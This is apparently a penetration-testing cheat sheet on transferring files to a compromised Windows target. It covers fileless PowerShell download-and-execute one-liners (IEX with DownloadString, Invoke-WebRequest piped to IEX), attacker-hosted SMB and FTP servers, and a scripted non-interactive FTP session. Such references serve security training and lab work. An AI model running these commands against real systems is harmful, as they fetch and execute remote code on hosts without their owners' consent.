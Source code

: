 ***

* Download and execute it directly in memory (fileless)

{% code overflow="wrap" lineNumbers="true" %}
```bash
PS\> IEX (New-Object Net.WebClient).DownloadString('$fileURL')
PS\> (New-Object Net.WebClient).DownloadString('$fileURL') | IEX #Alternative
```
{% endcode %}

***

* Overpassing parsing errors

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">PS\> Invoke-WebRequest https://$URL/$file | IEX #Got a parsing error
<strong>PS\> Invoke-WebRequest https://$URL/$file -UseBasicParsing | IEX #This solves
</strong></code></pre>

## &#x20;<mark style="color:orange;">Download using SMB</mark>

* Mount an SMB server on our machine to share files and download them on the target machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On our machine
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test

#On the target machine
PS\> net use n: \\$IP\share /user:test test
PS\> Copy-Item n:\$file
```
{% endcode %}

## <mark style="color:orange;">Download using FTP</mark>

* Mount an FTP server on our machine to share files and download them on the target machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On our machine
sudo pip install pyftpdlib #Install ftp server module
sudo python -m pyftpdlib --port 21 #Mount server 

#On the target machine
PS\> (New-Object Net.WebClient).DownloadFile('ftp://$IP/$file', 'C:\Users\Public\$file')
```
{% endcode %}

***

* When not having an interactive terminal a script can be created

{% code overflow="wrap" lineNumbers="true" %}
```bash
PS\> echo open $IP > ftpcommand.txt
PS\> echo USER anonymous >> ftpcommand.txt
PS\> echo binary >> ftpcommand.txt
PS\> echo GET $file >> ftpcommand.txt
PS\> echo bye >> ftpcommand.txt
PS\> ftp -v -n -s:ftpcommand.txt #Execute script in the server

PS\>type $file #Confirm the file have been transferred
```
{% endcode %}
